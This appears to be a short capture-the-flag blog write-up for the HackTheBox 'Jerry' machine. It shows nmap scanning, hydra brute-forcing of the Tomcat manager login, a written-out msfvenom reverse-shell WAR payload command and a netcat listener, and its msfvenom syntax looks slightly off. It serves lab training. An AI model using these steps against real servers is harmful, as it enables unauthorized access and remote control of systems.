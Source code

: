 ```yaml
---
layout: post
title:  "Jerry"
date:   2025-03-23 18:30:00 -0400
categories: HTB-machine windows easy
tags: HTB CTF writeup nmap hydra msf upload-file 
image:
    path: assets/img/htb/jerry/banner.png
---
```


# Writeup
Using `nmap` to scan and get what port is open and web server.
![](assets/img/htb/jerry/scan.png)

After accessing to `/manager/html`, using `hydra` to brute force password 
![](assets/img/htb/jerry/force.png)

Using `msfvenom` to create payload: `msfvenom -p windows/reverse_shell_tcp -LHOST {ip} -LPORT [port] -f war > payload.war`. Unpack file so we can see `.jsp` file.
![](assets/img/htb/jerry/unpack.png)

Upload `war` file, access `http://{ip}:{port}/manager/html/{war}/{jsp}`, use `netcat` to listen and get reverse shell.
![](assets/img/htb/jerry/upload.png)

Flag's location
![](assets/img/htb/jerry/flag.png)
